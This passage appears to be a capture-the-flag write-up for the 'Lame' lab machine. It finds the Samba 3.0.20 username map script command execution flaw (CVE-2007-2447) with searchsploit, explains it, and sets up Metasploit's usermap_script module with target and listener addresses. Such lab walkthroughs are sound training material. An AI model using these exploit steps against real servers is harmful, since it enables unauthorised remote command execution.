 But do not see anything of interest. We then use searchsploit to find the vulnerability of samba `3.0.20` 
# Foothold

###### code 

```sh
searchsploit samba 3.0.20
```

###### output
![sambalame](/Linux/Linux-Easy/Lame/Screenshots/sambalame.png)

lets use metasploit exploit as we see an interesting entry of `Remote code Execution (RCE) ` Vulnerablity to exploit the service.

```txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                     | unix/remote/16320.rb

```

The Vulnerability allowing this exploit was assigned [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) and stems from the `MS-RPC` functionality in `smbd` . This functionality allows remote attackers to execute `arbitrary commands` via shell `metacharacters` involving the  `samChangePassword` function when the username map script option is enabled in smb `.conf` . Additionally it allows remote authenitcated user to execute commands via shell `metacharacters` involving `MS-RPC` function in the remote printer and file share management. 

We lanch the Metasploit once again to search the module and execute the exploit.

###### code

```
msfconsole
```

Then we select `exploit/multi/samba/usermap_script` and select relevant parameters 

###### code 

```sh
search samba 3.0.20
use 0
options
set RHOSTS 10.10.10.3
set LHOSTS 10.10.14.4
```
